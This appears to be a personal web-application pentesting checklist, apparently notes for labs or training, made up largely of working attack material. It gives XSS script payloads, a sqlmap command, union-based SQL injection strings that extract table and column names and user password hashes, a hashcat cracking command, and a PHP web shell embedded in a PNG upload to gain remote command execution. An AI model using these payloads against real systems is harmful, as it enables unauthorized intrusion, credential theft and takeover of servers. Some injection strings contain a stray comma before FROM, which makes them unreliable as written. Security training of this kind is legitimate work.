 #ffuf #SQL #sqlmap #XSS #hashcat #RCE #InsecureFileUpload 

1. Enumerate directories using `ffuf`
	1. Take note
2. Check for password complexity for signup
3. Check for reflected XSS in url
	1. `<script>prompt(1)</script>` 
4. Check for stored XSS in comment
	1. `<script>prompt(1)</script>` 
5. Check for SQL injection
	1. Copy the GET http request from Burpsuite and paste into new `.txt`
		2. `sqlmap -r GET.txt -T users` --- may need to find TABLE_NAME if it is not "users"
	2. Blind SQL
		1. =`1' or 1=1#`
		2. =`1' or 1=1-- -`
		3. =`1' union select null, null, null, null, null, null-- -`
		4. =`1' union select null, 'string', null, null, null, null-- -`
		5. =`1' union select null, TABLE_NAME, 'string', null, null, null, null, FROM INFORMATION_SCHEMA.TABLES-- -`
		6. =`1' union select null, COLUMN_NAME, 'string', null, null, null, null, FROM INFORMATION_SCHEMA.COLUMNS-- -`
		7. =`1' union select null, username, password, null, null, null, null, FROM USERS-- -`
			1. Then can crack the hashes using `hashcat` (e.g. -m 3200 is for Blowfish encryption)
				1. `hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
6. Check for Insecure File Upload (use Burpsuite repeater to modify PNG header in POST packet of a valid PNG file upload)
```
...

PNG

IHDEARFilktyaEXt<?php system($_GET['cmd']); ?>
```
- then navigate to url directory the png is uploaded. Then can modify in url the `?cmd=whoami` to any command to achieve RCE